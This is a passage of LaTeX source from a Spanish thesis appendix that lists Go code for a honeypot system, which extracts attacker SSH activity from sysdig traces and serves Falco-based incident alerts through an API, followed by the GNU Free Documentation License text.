        } else if ( strings.Contains(output, "error reading from file") 
               || strings.Contains(output, "unexpected end of file") ) {
            logrus.Debugf("looks like file is wrong, refusing to continue")
            isOk = false
        } else {
            logrus.Debugf("looks like file is fine, why are we here?")
            isOk = true
        }
        return isOk
    }
    
    func checkSysdigFailure(stdout, stderr []byte, file string) bool {
        sErr := string(stderr[:])
        sOut := string(stdout[:])
        if !isTraceFileOk(sErr, file) {
            logrus.Debugf("STDERR: %s", sErr)
            logrus.Debugf("[checkSysdigFailure] unable to read trace %s refusing to continue", file)
            return true
        } else if !isTraceFileOk(sOut, file) {
            logrus.Debugf("STDOUT: %s", sOut)
            logrus.Debugf("[checkSysdigFailure] unable to read trace %s refusing to continue", file)
            return true
        }
        return false
    }
    
    func ExtractAttackerActivity(file string) []AttackerActivity {
    
        //sysdig -pc -r test/srv02.superprivyhosting.com.2017-05-31-06-54.part2 -c spy_users
        // '100 disable_color' container.id != host | grep -v 'sshd -R'
        sysdig := exec.Command("/usr/bin/sysdig", "-pc", "-c", "spy_users", "-r", file, "container.id!=host")
        egrep := exec.Command("egrep", "-v", `sshd.*R`)
    
        output, stderr, err := helpers.Pipeline(sysdig, egrep)
        if err != nil {
            if checkSysdigFailure(output, stderr, file) {
                logrus.Debugf("[ExtractAttackerActivity] Unable to launch sysdig %s", err)
                return nil
    
            }
            // if stderr is not empty, then something nasty happened if not is just an empty file
        }
        AttackerActivityLog := parseActivities(output)
        AttackerActivityEntries := make([]AttackerActivity, 0)
        ActivityRegexp := regexp.MustCompile(`(\d+) (\d{4}-\d{2}-\d{2} 
        \d{2}:\d{2}:\d{2}\.\d{9}) (\w+)@(\w+)\) (.*)`)
        for _, logentry := range AttackerActivityLog {
            subfields := ActivityRegexp.FindStringSubmatch(logentry)
            if len(subfields) == 0 {
                continue
            }
            var entry activitylog
            entry.PID = subfields[1]
            entry.User = subfields[3]
            entry.Datetime = subfields[2]
            entry.ContainerID = subfields[4]
            entry.Command = subfields[5]
            logrus.Debugf("entry parsed %+v", entry)
            if validateEntry(entry) {
                logrus.Debugf("entry validated")
                var data AttackerActivity
                data.Activity = entry.Command
                data.ContainerID = entry.ContainerID
                data.SourceFile = file
                data.PID = entry.PID
                data.User = entry.User
                data.Datetime = entry.Datetime
                AttackerActivityEntries = append(AttackerActivityEntries, data)
    
            }
    
        }
        return AttackerActivityEntries
    }
    
    
\end{minted}
\captionof{listing}{metadata\_extractor - handlers/ssh.go \label{listing:metadata-extractor-handlers-ssh}}

\bigskip

\begin{minted}[fontsize=\scriptsize,linenos]{go}
package parsers

type Trace struct {
       ContainerID         string `json:"container.id",omitempty`
       ContainerName       string `json:"container.name",omitempty`
       EventCPU            int    `json:"evt.cpu"`
       EventDir            string `json:"evt.dir"`
       EventInfo           string `json:"evt.info"`
       EventNumber         int    `json:"evt.num"`
       EventOutputUnixTime int64  `json:"evt.outputtime"`
       EventType           string `json:"evt.type"`
       ProcName            string `json:"proc.name"`
       ThreadTid           int    `json:"thread.tid"`
       ThreadVTid          int    `json:"thread.vtid",omitempty`
}
type ByUnixTime []Trace
type ByEventNumber []Trace

func (a ByUnixTime) Len() int      { return len(a) }
func (a ByUnixTime) Swap(i, j int) { a[i], a[j] = a[j], a[i] }
func (a ByUnixTime) Less(i, j int) bool {

       if a[i].EventOutputUnixTime == a[j].EventOutputUnixTime {
               if a[i].ThreadTid == a[j].ThreadTid {
                       if a[i].ThreadVTid == a[j].ThreadVTid {
                               return a[i].EventNumber < a[j].EventNumber
                       }
                       return a[i].ThreadVTid < a[j].ThreadVTid
               }
               return a[i].ThreadTid < a[j].ThreadTid
       }
       return a[i].EventOutputUnixTime < a[j].EventOutputUnixTime

}

func (a ByEventNumber) Len() int      { return len(a) }
func (a ByEventNumber) Swap(i, j int) { a[i], a[j] = a[j], a[i] }
func (a ByEventNumber) Less(i, j int) bool {
       switch {
       case a[i].EventOutputUnixTime < a[j].EventOutputUnixTime:
               // p < q, so we have a decision.
               return true
       case a[i].EventOutputUnixTime > a[j].EventOutputUnixTime:
               // p > q, so we have a decision.
               return false
       }
       return a[i].ThreadTid < a[j].ThreadTid
}

type AttackerLoginAttempt struct {
       UnixTime    string
       IP          string
       User        string
       Password    string
       Successful  bool
       ContainerID string
       Hostname    string
}

type AttackerActivity struct {
       ContainerID string
       SourceFile  string
       User        string
       PID         string
       Datetime    string
       Activity    string
}
type activitylog struct {
       PID         string
       User        string
       ContainerID string
       Command     string
       Datetime    string
}

\end{minted}
\captionof{listing}{metadata\_extractor - handlers/ssh\_models.go \label{listing:metadata-extractor-handlers-ssh-models}}

\subsection{\emph{beekeeper\_api} API de clientes}
\label{subsec:anexos-beekeeper-api-src-code}

Se incluye un extracto del código de \emph{Beekeeper API} por completitud y como soporte a la lectura de la memoria. Sin
embargo se recomienda su exploración en GitHub en \href{https://github.com/Fsero/beekeeper\_api}{https://github.com/Fsero/beekeeper\_api} , dóndeserá más fácil interactuar con el código y ver cambios recientes si los
hubiera.


\begin{minted}[fontsize=\scriptsize,linenos]{go}
    package controllers

    import (
        "fmt"
        "log"
        "sort"

        "bitbucket.org/fseros/beekeeper_api/models/ssh"

        "time"

        "github.com/Sirupsen/logrus"
        "github.com/astaxie/beego"
    )

    // Operations about object
    type IncidentController struct {
        beego.Controller
    }

    type IncidentResponse struct {
        GeneratedAt time.Time          `json:"generatedat"`
        Incidents   *[]models.Incident `json:"incidents"`
    }

    // @Title GetIncidents
    // @Description get all objects
    // @Success 200 {object} []models.Incident
    // @Failure 500 "Unable to get incidents"
    // @router / [get]
    func (o *IncidentController) GetIncidents() {
        var start_date, end_date string
        var obs map[string]*models.Incident
        var err error
        var endDate, startDate time.Time
        var endDateErr, startDateErr error
        var pageSize int
        o.Ctx.Input.Bind(&start_date, "from")
        o.Ctx.Input.Bind(&end_date, "to")
        o.Ctx.Input.Bind(&pageSize, "size")

        fmt.Printf("%s %s \n", start_date, end_date)

        if pageSize == 0 {
            pageSize = 30
        }
        if start_date != "" {
            timeString := time.RFC3339
            if end_date == "" {
                endDate = time.Now()
            } else {
                endDate, endDateErr = time.Parse(timeString, end_date)
            }
            startDate, startDateErr = time.Parse(timeString, start_date)

            if startDateErr != nil || endDateErr != nil {

                log.Println(startDateErr, endDateErr)
                return
            }
            logrus.Infof("searching for %d incidents from %s to %s",
             pageSize, start_date, end_date)
            obs, err = models.GetIncident(startDate, endDate, pageSize)

        } else {
            obs, err = models.GetAllIncidents(pageSize)
        }
        if err == nil {
            var keys []string
            for k := range obs {
                keys = append(keys, k)
            }
            sort.Sort(sort.Reverse(sort.StringSlice(keys)))
            var values []models.Incident
            values = make([]models.Incident, 0)
            for _, k := range keys {
                values = append(values, *(obs[k]))
            }
            response := IncidentResponse{}
            response.GeneratedAt = time.Now()
            response.Incidents = &values
            o.Data["json"] = &response
            o.ServeJSON()
        } else {
            o.Data["json"] = fmt.Sprintf("{ 'msg': '%s' }", err.Error())
            o.Ctx.Output.SetStatus(500)
            o.ServeJSON()
            o.StopRun()
        }
    }


\end{minted}
\captionof{listing}{beekeeper\_api - controllers/ssh/incident.go \label{listing:beekeeper-api-controllers-ssh-incident}}



\begin{minted}[fontsize=\scriptsize,linenos]{go}
    package models

    import (
        "encoding/json"
        "errors"
        "fmt"
        "sort"
        "strings"
        "time"

        "bitbucket.org/fseros/beekeeper_api/helpers"

        "regexp"

        "github.com/Sirupsen/logrus"
        "gopkg.in/olivere/elastic.v5"
    )

    var (
        Incidents map[string]*Incident
    )

    type Provider struct {
        Provider string
        Country  string
    }

    type Incident struct {
        ID        string
        Triggered string
        Provider
        StartedAt  time.Time
        FinishedAt time.Time
        Offenders  []attackerLoginAttemptDoc
        Activities []attackerActivityDoc
    }

    // Jul 15 20:59:00 srv01 falco:
    // {"output":"20:48:49.599471717: Alert Shell spawned in a container
    //other than entrypoint (user=root ssh (id=94cf593573b3) ssh (id=94cf593573b3)
    // shell=bash parent=sshd cmdline=bash -c /usr/lib/openssh/sftp-server)",
    //"priority":"Alert","rule":"Run shell in container",
    // "time":"2017-07-15T20:48:49.599471717Z"}

    type Alert struct {
        Output    string    `json:"output"`
        Priority  string    `json:"priority"`
        Rule      string    `json:"rule"`
        Timestamp time.Time `json:"time"`
    }

    func GetIncident(from time.Time, to time.Time, size int) (map[string]*Incident, error) {
        var e ElasticOutputClient
        query := elastic.NewBoolQuery()
        d1 := elastic.NewRangeQuery("@timestamp")
        d1.From(from)
        d1.To(to)
        query = query.Must(d1)
        searchResult, err := e.Search("alerts-*", size, query)
        Incidents, err := getIncidents(searchResult)
        logrus.Debugf("[GetAllIncidents] %d incidents found \n", len(Incidents))
        return Incidents, err
    }

    func getIncidents(searchResult *elastic.SearchResult) (map[string]*Incident, error) {
        Incidents = make(map[string]*Incident, 0)
        if searchResult.Hits.TotalHits > 0 {
            logrus.Infof("[getIncidents] found %d incidents", searchResult.Hits.TotalHits)
            for _, hit := range searchResult.Hits.Hits {
                var t alertDoc
                err := json.Unmarshal(*hit.Source, &t)
                if err != nil {
                    logrus.Fatalf("[getIncidents] Unable to unmarshall json %s %s", *hit.Source, err)
                }
                if t.Message == "" {
                    logrus.Debugf("[getIncident] empty alert?")
                    continue
                }
                slices := strings.Split(t.Raw, "falco: ")
                input := slices[1]
                var alert Alert
                if err = json.Unmarshal([]byte(input), &alert); err != nil {
                    logrus.Errorf("[getIncidents] Unable to unmarshall json %s %s", input, err)
                    return nil, errors.New("unable to get alerts")

                }
                containerIDRegexp := regexp.MustCompile(`(id=(\w+))`)
                matches := containerIDRegexp.FindStringSubmatch(t.Message)
                if len(matches) > 0 {
                    containerID := matches[2]
                    stringSlice := strings.Split(t.Source, "/")
                    //TODO: DNS name should be configurable.
                    probeName := fmt.Sprintf("%s.superprivyhosting.com", stringSlice[3])
                    probes, err := helpers.GetProbe(probeName)
                    var probe helpers.Probe
                    if len(probes) > 0 {
                        probe = probes[0]
                    } else {
                        logrus.Errorf("[GetIncidents] Unable to get probe info")
                        return nil, errors.New("unable to get probe info")
                    }
                    offenders, _ := GetOffenders(containerID, probe.FQDN,
                                    fmt.Sprintf("%d000", alert.Timestamp.Unix()))
                    activities, _ := GetActivities(containerID, probe.FQDN,
                                    fmt.Sprintf("%d000", alert.Timestamp.Unix()))
                    sort.Sort(ByUnixTimeActivities(activities))
                    sort.Sort(ByUnixTimeOffenders(offenders))
                    logrus.Debugf("[getIncidents] new alert found! %+v", alert)
                    var lastSeen time.Time
                    if len(offenders) > 0 {
                        lastSeen = offenders[len(offenders)-1].Timestamp
                    } else {
                        lastSeen = time.Time{}
                    }

                    if err == nil {
                        inc := Incident{Activities: activities,
                        Triggered: t.Message,
                        ID: fmt.Sprintf("%d000-%s", alert.Timestamp.Unix(),
                        probe.Provider),
                        StartedAt: alert.Timestamp,
                        FinishedAt: lastSeen,
                        Provider: Provider{Provider: probe.Provider, Country: probe.Country},
                        Offenders: offenders}

                        logrus.Debugf("[getIncidents] adding incident %+v", inc)
                        Incidents[inc.ID] = &inc
                    }
                }
            }
        }
        return Incidents, nil
    }

    func GetAllIncidents(size int) (map[string]*Incident, error) {
        var e ElasticOutputClient
        searchResult, err := e.Search("alerts-*", size, nil)
        Incidents, err := getIncidents(searchResult)
        logrus.Debugf("[GetAllIncidents] %d incidents found \n", len(Incidents))
        return Incidents, err
    }


\end{minted}
\captionof{listing}{beekeeper\_api - controllers/ssh/incident.go \label{listing:beekeeper-api-models-ssh-incident}}

\subsection{\emph{Playbook} de Ansible}
\label{subsec:playbook-ansible}

No se incluye en el listado el \emph{playbook} de Ansible utilizado para configurar y provisionar las sondas y el recolector, pero se encuentra liberado en GitHub
en \href{https://github.com/Fsero/beekeeper\_ansible}{https://github.com/Fsero/beekeeper\_ansible}.

%%% Local Variables: 
%%% mode: latex
%%% TeX-master: "main"
%%% End:
\chapter{Presupuesto}

%%% Local Variables: 
%%% mode: latex
%%% TeX-master: "main"
%%% End:
\appendix
%---------------------------------------------------------------------


 \begin{center}

       Version 1.2, November 2002


 Copyright \copyright 2000,2001,2002  Free Software Foundation, Inc.
 
 \bigskip
 
     51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
  
 \bigskip
 
 Everyone is permitted to copy and distribute verbatim copies
 of this license document, but changing it is not allowed.
\end{center}


\begin{center}
{\bf\large Preamble}
\end{center}

The purpose of this License is to make a manual, textbook, or other
functional and useful document ``free'' in the sense of freedom: to
assure everyone the effective freedom to copy and redistribute it,
with or without modifying it, either commercially or noncommercially.
Secondarily, this License preserves for the author and publisher a way
to get credit for their work, while not being considered responsible
for modifications made by others.

This License is a kind of ``copyleft'', which means that derivative
works of the document must themselves be free in the same sense.  It
complements the GNU General Public License, which is a copyleft
license designed for free software.

We have designed this License in order to use it for manuals for free
software, because free software needs free documentation: a free
program should come with manuals providing the same freedoms that the
software does.  But this License is not limited to software manuals;
it can be used for any textual work, regardless of subject matter or
whether it is published as a printed book.  We recommend this License
principally for works whose purpose is instruction or reference.


\begin{center}
{\Large\bf 1. APPLICABILITY AND DEFINITIONS}
\end{center}

This License applies to any manual or other work, in any medium, that
contains a notice placed by the copyright holder saying it can be
distributed under the terms of this License.  Such a notice grants a
world-wide, royalty-free license, unlimited in duration, to use that
work under the conditions stated herein.  The \textbf{``Document''}, below,
refers to any such manual or work.  Any member of the public is a
licensee, and is addressed as \textbf{``you''}.  You accept the license if you
copy, modify or distribute the work in a way requiring permission
under copyright law.

A \textbf{``Modified Version''} of the Document means any work containing the
Document or a portion of it, either copied verbatim, or with
modifications and/or translated into another language.

A \textbf{``Secondary Section''} is a named appendix or a front-matter section of
the Document that deals exclusively with the relationship of the
publishers or authors of the Document to the Document's overall subject
(or to related matters) and contains nothing that could fall directly
within that overall subject.  (Thus, if the Document is in part a
textbook of mathematics, a Secondary Section may not explain any
mathematics.)  The relationship could be a matter of historical
connection with the subject or with related matters, or of legal,
commercial, philosophical, ethical or political position regarding
them.

The \textbf{``Invariant Sections''} are certain Secondary Sections whose titles
are designated, as being those of Invariant Sections, in the notice
that says that the Document is released under this License.  If a
section does not fit the above definition of Secondary then it is not
allowed to be designated as Invariant.  The Document may contain zero
Invariant Sections.  If the Document does not identify any Invariant
Sections then there are none.

The \textbf{``Cover Texts''} are certain short passages of text that are listed,
as Front-Cover Texts or Back-Cover Texts, in the notice that says that
the Document is released under this License.  A Front-Cover Text may
be at most 5 words, and a Back-Cover Text may be at most 25 words.

A \textbf{``Transparent''} copy of the Document means a machine-readable copy,
represented in a format whose specification is available to the
general public, that is suitable for revising the document
straightforwardly with generic text editors or (for images composed of
pixels) generic paint programs or (for drawings) some widely available
drawing editor, and that is suitable for input to text formatters or
for automatic translation to a variety of formats suitable for input
to text formatters.  A copy made in an otherwise Transparent file
format whose markup, or absence of markup, has been arranged to thwart
or discourage subsequent modification by readers is not Transparent.
An image format is not Transparent if used for any substantial amount
of text.  A copy that is not ``Transparent'' is called \textbf{``Opaque''}.

Examples of suitable formats for Transparent copies include plain
ASCII without markup, Texinfo input format, LaTeX input format, SGML
or XML using a publicly available DTD, and standard-conforming simple
HTML, PostScript or PDF designed for human modification.  Examples of
transparent image formats include PNG, XCF and JPG.  Opaque formats
include proprietary formats that can be read and edited only by
proprietary word processors, SGML or XML for which the DTD and/or
processing tools are not generally available, and the
machine-generated HTML, PostScript or PDF produced by some word
processors for output purposes only.

The \textbf{``Title Page''} means, for a printed book, the title page itself,
plus such following pages as are needed to hold, legibly, the material
this License requires to appear in the title page.  For works in
formats which do not have any title page as such, ``Title Page'' means
the text near the most prominent appearance of the work's title,
preceding the beginning of the body of the text.

A section \textbf{``Entitled XYZ''} means a named subunit of the Document whose
title either is precisely XYZ or contains XYZ in parentheses following
text that translates XYZ in another language.  (Here XYZ stands for a
specific section name mentioned below, such as \textbf{``Acknowledgements''},
\textbf{``Dedications''}, \textbf{``Endorsements''}, or \textbf{``History''}.)  
To \textbf{``Preserve the Title''}
of such a section when you modify the Document means that it remains a
section ``Entitled XYZ'' according to this definition.

The Document may include Warranty Disclaimers next to the notice which
states that this License applies to the Document.  These Warranty
Disclaimers are considered to be included by reference in this
License, but only as regards disclaiming warranties: any other
implication that these Warranty Disclaimers may have is void and has
no effect on the meaning of this License.


\begin{center}
{\Large\bf 2. VERBATIM COPYING}
\end{center}

You may copy and distribute the Document in any medium, either
commercially or noncommercially, provided that this License, the
copyright notices, and the license notice saying this License applies
to the Document are reproduced in all copies, and that you add no other
conditions whatsoever to those of this License.  You may not use
technical measures to obstruct or control the reading or further
copying of the copies you make or distribute.  However, you may accept
compensation in exchange for copies.  If you distribute a large enough
number of copies you must also follow the conditions in section 3.

You may also lend copies, under the same conditions stated above, and
you may publicly display copies.


\begin{center}
{\Large\bf 3. COPYING IN QUANTITY}
\end{center}


If you publish printed copies (or copies in media that commonly have
printed covers) of the Document, numbering more than 100, and the
Document's license notice requires Cover Texts, you must enclose the
copies in covers that carry, clearly and legibly, all these Cover
Texts: Front-Cover Texts on the front cover, and Back-Cover Texts on
the back cover.  Both covers must also clearly and legibly identify
you as the publisher of these copies.  The front cover must present
the full title with all words of the title equally prominent and
visible.  You may add other material on the covers in addition.
Copying with changes limited to the covers, as long as they preserve
the title of the Document and satisfy these conditions, can be treated
as verbatim copying in other respects.

If the required texts for either cover are too voluminous to fit
legibly, you should put the first ones listed (as many as fit
reasonably) on the actual cover, and continue the rest onto adjacent
pages.

If you publish or distribute Opaque copies of the Document numbering
more than 100, you must either include a machine-readable Transparent
copy along with each Opaque copy, or state in or with each Opaque copy
a computer-network location from which the general network-using
public has access to download using public-standard network protocols
a complete Transparent copy of the Document, free of added material.
If you use the latter option, you must take reasonably prudent steps,
when you begin distribution of Opaque copies in quantity, to ensure
that this Transparent copy will remain thus accessible at the stated
location until at least one year after the last time you distribute an
Opaque copy (directly or through your agents or retailers) of that
edition to the public.

It is requested, but not required, that you contact the authors of the
Document well before redistributing any large number of copies, to give
them a chance to provide you with an updated version of the Document.


\begin{center}
{\Large\bf 4. MODIFICATIONS}
\end{center}

You may copy and distribute a Modified Version of the Document under
the conditions of sections 2 and 3 above, provided that you release
the Modified Version under precisely this License, with the Modified
Version filling the role of the Document, thus licensing distribution
and modification of the Modified Version to whoever possesses a copy
of it.  In addition, you must do these things in the Modified Version:

\begin{itemize}
\item[A.] 
   Use in the Title Page (and on the covers, if any) a title distinct
   from that of the Document, and from those of previous versions
   (which should, if there were any, be listed in the History section
   of the Document).  You may use the same title as a previous version
   if the original publisher of that version gives permission.
   
\item[B.]
   List on the Title Page, as authors, one or more persons or entities
   responsible for authorship of the modifications in the Modified
   Version, together with at least five of the principal authors of the
   Document (all of its principal authors, if it has fewer than five),
   unless they release you from this requirement.
   
\item[C.]
   State on the Title page the name of the publisher of the
   Modified Version, as the publisher.
   
\item[D.]
   Preserve all the copyright notices of the Document.
   
\item[E.]
   Add an appropriate copyright notice for your modifications
   adjacent to the other copyright notices.
   
\item[F.]
   Include, immediately after the copyright notices, a license notice
   giving the public permission to use the Modified Version under the
   terms of this License, in the form shown in the Addendum below.
   
\item[G.]
   Preserve in that license notice the full lists of Invariant Sections
   and required Cover Texts given in the Document's license notice.
   
\item[H.]
   Include an unaltered copy of this License.
   
\item[I.]
   Preserve the section Entitled ``History'', Preserve its Title, and add
   to it an item stating at least the title, year, new authors, and
   publisher of the Modified Version as given on the Title Page.  If
   there is no section Entitled ``History'' in the Document, create one
   stating the title, year, authors, and publisher of the Document as
   given on its Title Page, then add an item describing the Modified
   Version as stated in the previous sentence.
   
\item[J.]
   Preserve the network location, if any, given in the Document for
   public access to a Transparent copy of the Document, and likewise
   the network locations given in the Document for previous versions
   it was based on.  These may be placed in the ``History'' section.
   You may omit a network location for a work that was published at
   least four years before the Document itself, or if the original
   publisher of the version it refers to gives permission.
   
\item[K.]
   For any section Entitled ``Acknowledgements'' or ``Dedications'',
   Preserve the Title of the section, and preserve in the section all
   the substance and tone of each of the contributor acknowledgements
   and/or dedications given therein.
   
\item[L.]
   Preserve all the Invariant Sections of the Document,
   unaltered in their text and in their titles.  Section numbers
   or the equivalent are not considered part of the section titles.
   
\item[M.]
   Delete any section Entitled ``Endorsements''.  Such a section
   may not be included in the Modified Version.
   
\item[N.]
   Do not retitle any existing section to be Entitled ``Endorsements''
   or to conflict in title with any Invariant Section.
   
\item[O.]
   Preserve any Warranty Disclaimers.
\end{itemize}

If the Modified Version includes new front-matter sections or
appendices that qualify as Secondary Sections and contain no material
copied from the Document, you may at your option designate some or all
of these sections as invariant.  To do this, add their titles to the
list of Invariant Sections in the Modified Version's license notice.
These titles must be distinct from any other section titles.

You may add a section Entitled ``Endorsements'', provided it contains
nothing but endorsements of your Modified Version by various
parties--for example, statements of peer review or that the text has
been approved by an organization as the authoritative definition of a
standard.

You may add a passage of up to five words as a Front-Cover Text, and a
passage of up to 25 words as a Back-Cover Text, to the end of the list
of Cover Texts in the Modified Version.  Only one passage of
Front-Cover Text and one of Back-Cover Text may be added by (or
through arrangements made by) any one entity.  If the Document already
includes a cover text for the same cover, previously added by you or
by arrangement made by the same entity you are acting on behalf of,
you may not add another; but you may replace the old one, on explicit
permission from the previous publisher that added the old one.

The author(s) and publisher(s) of the Document do not by this License
give permission to use their names for publicity for or to assert or
imply endorsement of any Modified Version.


\begin{center}
{\Large\bf 5. COMBINING DOCUMENTS}
\end{center}


You may combine the Document with other documents released under this
License, under the terms defined in section 4 above for modified
versions, provided that you include in the combination all of the
Invariant Sections of all of the original documents, unmodified, and
list them all as Invariant Sections of your combined work in its
license notice, and that you preserve all their Warranty Disclaimers.

The combined work need only contain one copy of this License, and
multiple identical Invariant Sections may be replaced with a single
copy.  If there are multiple Invariant Sections with the same name but
different contents, make the title of each such section unique by
adding at the end of it, in parentheses, the name of the original
author or publisher of that section if known, or else a unique number.
Make the same adjustment to the section titles in the list of
Invariant Sections in the license notice of the combined work.

In the combination, you must combine any sections Entitled ``History''
in the various original documents, forming one section Entitled
``History''; likewise combine any sections Entitled ``Acknowledgements'',
and any sections Entitled ``Dedications''.  You must delete all sections
Entitled ``Endorsements''.

\begin{center}
{\Large\bf 6. COLLECTIONS OF DOCUMENTS}
\end{center}

You may make a collection consisting of the Document and other documents
released under this License, and replace the individual copies of this
License in the various documents with a single copy that is included in
the collection, provided that you follow the rules of this License for
verbatim copying of each of the documents in all other respects.

You may extract a single document from such a collection, and distribute
it individually under this License, provided you insert a copy of this
License into the extracted document, and follow this License in all
other respects regarding verbatim copying of that document.


\begin{center}
{\Large\bf 7. AGGREGATION WITH INDEPENDENT WORKS}
\end{center}


A compilation of the Document or its derivatives with other separate
and independent documents or works, in or on a volume of a storage or
distribution medium, is called an ``aggregate'' if the copyright
resulting from the compilation is not used to limit the legal rights
of the compilation's users beyond what the individual works permit.
When the Document is included in an aggregate, this License does not
apply to the other works in the aggregate which are not themselves
derivative works of the Document.

If the Cover Text requirement of section 3 is applicable to these
copies of the Document, then if the Document is less than one half of
the entire aggregate, the Document's Cover Texts may be placed on
covers that bracket the Document within the aggregate, or the
electronic equivalent of covers if the Document is in electronic form.
Otherwise they must appear on printed covers that bracket the whole
aggregate.


\begin{center}
{\Large\bf 8. TRANSLATION}
\end{center}


Translation is considered a kind of modification, so you may
distribute translations of the Document under the terms of section 4.
Replacing Invariant Sections with translations requires special
permission from their copyright holders, but you may include
translations of some or all Invariant Sections in addition to the
original versions of these Invariant Sections.  You may include a
translation of this License, and all the license notices in the
Document, and any Warranty Disclaimers, provided that you also include
the original English version of this License and the original versions
of those notices and disclaimers.  In case of a disagreement between
the translation and the original version of this License or a notice
or disclaimer, the original version will prevail.

If a section in the Document is Entitled ``Acknowledgements'',
``Dedications'', or ``History'', the requirement (section 4) to Preserve
its Title (section 1) will typically require changing the actual
title.


\begin{center}
{\Large\bf 9. TERMINATION}
\end{center}


You may not copy, modify, sublicense, or distribute the Document except
as expressly provided for under this License.  Any other attempt to
copy, modify, sublicense or distribute the Document is void, and will
automatically terminate your rights under this License.  However,
parties who have received copies, or rights, from you under this
License will not have their licenses terminated so long as such
parties remain in full compliance.


\begin{center}
{\Large\bf 10. FUTURE REVISIONS OF THIS LICENSE}
\end{center}


The Free Software Foundation may publish new, revised versions
of the GNU Free Documentation License from time to time.  Such new
versions will be similar in spirit to the present version, but may
differ in detail to address new problems or concerns.  See
http://www.gnu.org/copyleft/.

Each version of the License is given a distinguishing version number.
If the Document specifies that a particular numbered version of this
License ``or any later version'' applies to it, you have the option of
following the terms and conditions either of that specified version or
of any later version that has been published (not as a draft) by the
Free Software Foundation.  If the Document does not specify a version
number of this License, you may choose any version ever published (not
as a draft) by the Free Software Foundation.

%---------------------------------------------------------------------

%%% Local Variables: 
%%% mode: latex
%%% TeX-master: "main"
%%% End: 





\bibliographystyle{is-alpha}
\bibliography{bibliografia}



\end{document}

%%% Local Variables: 
%%% mode: latex
%%% TeX-master: t
%%% End: 
